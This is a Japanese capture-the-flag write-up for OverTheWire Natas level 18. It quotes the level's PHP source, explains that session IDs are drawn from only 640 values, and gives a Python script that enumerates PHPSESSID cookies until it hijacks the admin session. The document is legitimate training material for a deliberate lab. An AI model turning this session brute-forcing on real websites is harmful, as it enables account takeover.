


  

usernameとpasswordでログインを行うことができるページらしい。  

適当に"test/test"でログインを行ってみると、  

  

ログインすることができたがflagを得るには管理者アカウントでログインしないといけないらしい。  

ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "<censored>" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
<?php

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}

if($showform) {
?>

<p>
Please login with your admin account to retrieve credentials for natas19.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


ゴールは以下のコード中のifを通ってflagを表示すること。  
```
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

条件  
1. セッションのキーに「admin」があること。
2. セッションのadminキーの値が1であること。

だがブラウザの開発者ツールを使用して条件を満たすようにしてもflagは表示されなかった。  

再びコードを見てると、先頭付近に`$maxid = 640;`とあり、  
```
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
```
ここで、使用している。  
これは、適当にusernameとpasswordでログインを行った時に、createIDメソッドから返ってきた1〜640の乱数をセッションIDに設定している。  

なので1~640を順に調べていって管理者のセッションIDを探索する。  

```
import requests
import string
from requests.auth import HTTPBasicAuth

basicAuth=HTTPBasicAuth('natas18', '*****************************')

MAX = 640
count = 1

u="http://natas18.natas.labs.overthewire.org/index.php?debug"

while count <= MAX:
    sessionID = "PHPSESSID=" + str(count)
    print(sessionID)

    headers = {'Cookie': sessionID}
    response = requests.get(u, headers=headers, auth=basicAuth, verify=False)

    if "You are logged in as a regular user" not in response.text:
        print(response.text)

    count += 1

print("Done!")

```

実行してしばらく待つと、PHPSESSIDが`119`でflagが表示される。  

クリア
